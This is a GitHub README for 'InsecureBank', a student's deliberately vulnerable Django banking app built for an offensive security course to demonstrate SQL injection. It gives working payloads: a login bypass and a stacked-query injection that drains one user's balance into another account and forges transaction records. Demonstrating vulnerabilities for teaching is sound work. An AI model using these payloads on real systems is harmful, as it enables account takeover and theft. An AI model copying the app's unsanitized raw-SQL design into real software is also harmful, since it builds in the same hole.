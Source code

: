 # SQL Injection Demo - 'InsecureBank'

My final project built for cs4001, Offensive Security, taught by Sean Wagner.

This project, a simple banking app, is designed to demonstrate SQL injection vulnerabilities in a web app with unsanitized input fields that execute raw sql queries. It ships with a dockerfile so this project can be run on any machine with docker as a nicely packaged demo for someone wanting to experiment with this type of vulnerability.

## What I Learned
* A form input is vulnerable to SQL injection when we don't sanitize our inputs and execute raw SQL directly.
* Depending on how the SQL is executed on the backend, an input field may only be vulnerable to modifying a single query (using statements like AND, OR), or multiple queries (separated by a semicolon to end a sql statement). This demo has been made as vulnerable as possible by allowing multiple sql statements to be executed at once.
* The Django framework does a great job guarding against this type of vulnerability with its out-of-the-box login and registration forms. I had to go out of my way by making custom forms to create this vulnerability.


## Running the app locally

Recommended method using Docker:

```
docker build -t demo .
docker run -p 8000:8000 demo
```

Alternative method without Docker:

```
python3 manage.py runserver
```

Dev server http://localhost:8000/

## SQL Injections you can try (EASY):
Enter a username into the login field followed by ' or '1'='1
This will let you bypass the password and login as that user.

```
' or '1'='1
```

## SQL Injections you can try (COMPLEX):
Given that you have created two users, 'demo' and 'hackerman' for this example, paste the following into the username field. An error will be thrown, but the statement will still execute. This query will transfer the entire balance from account with username 'demo' to account 'hackerman'

```
'; UPDATE bank_bankaccount
SET balance = balance + (SELECT balance FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'))
WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman');

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman')),
  (SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'All of demo users money!',
  'Deposit',
  '0'
);

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  -1*(SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'Youve been hacked by the infamous Hackerman!',
  'Withdrawal',
  '0'
);

UPDATE bank_bankaccount
SET balance = 0
WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'); 

SELECT * FROM auth_user WHERE username='fail
```

## Final Notes

This project was built in the span of 24 hours, so there is room left for improvement. While the vulnerability does work, the database design is not the best. The transaction table should not be a table that gets updated manually, but rather automatically when the bankaccount table gets modified. This would greatly simplify the complex example above and make the demo more realistic.
